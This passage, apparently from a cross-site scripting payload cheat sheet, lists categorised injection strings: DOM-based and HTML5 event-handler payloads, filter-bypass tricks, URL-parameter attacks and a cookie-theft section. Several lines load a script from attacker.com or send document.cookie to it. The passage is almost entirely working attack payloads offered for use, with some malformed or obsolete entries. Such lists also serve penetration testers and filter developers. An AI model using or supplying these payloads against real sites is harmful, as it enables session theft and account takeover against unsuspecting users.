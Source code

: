 ```html
<svg><script>alert`1`</script></svg>  // Using backticks
<script x=">" src="http://attacker.com/xss.js"></script>  // Attribute confusion
<iframe srcdoc="<script>alert('XSS')</script>"></iframe>  // srcdoc attribute
<script>const alert=window.alert.bind(window);alert('XSS')</script> // JavaScript function binding
```

### **7. DOM-Based XSS Payloads**
Payloads targeting insecure JavaScript code.

```html
<script>document.write('<img src="x" onerror="alert(\'XSS\')">');</script>
<input id="test" oninput="location.href='javascript:alert('+this.value+')'">
```

### **8. HTML5 and Modern Techniques**
Taking advantage of new HTML5 elements.

```html
<video><source onerror="alert('XSS')"></video>
<keygen autofocus onfocus=alert(1)>
<audio src onloadstart=alert(1)>
<meter value=2 min=0 max=10 onmouseover=alert(1)>X</meter>
<output onforminput="alert(1)">X</output>
<progress value=10 max=100 onclick=alert(1)>Progress</progress>
```

### **9. Malformed Tags or Encoded Bypasses**
Use malformed tags or entities to bypass filters.

```html
<scr<script>ipt>alert('XSS')</scr<script>ipt>  // Broken up script tag
<script>alert(String.fromCharCode(88,83,83))</script>  // Obfuscated alert using char codes
<scr%0ipt>alert('XSS')</scr%0ipt>  // Using URL-encoded characters
```

### **10. URL Parameter-Based XSS**
Payloads embedded in the query string.

```
http://example.com/index.php?name=<script>alert('XSS')</script>
http://example.com/?q=%3Cscript%3Ealert(document.cookie)%3C/script%3E
javascript:eval("alert('XSS')")
```

### **11. Cookie Theft via XSS**
Using JavaScript to steal cookies.

```html
<script>document.location='http://attacker.com/?cookie='+document.cookie</script>
<img src="x" onerror="fetch('http://attacker.com?cookie='+document.cookie)">
<script>new Image().src="http://attacker.com/"+document.cookie;</script>
```

### **12. XSS in Contexts Other Than HTML**
Injected into JSON, XML, or other non-standard contexts.

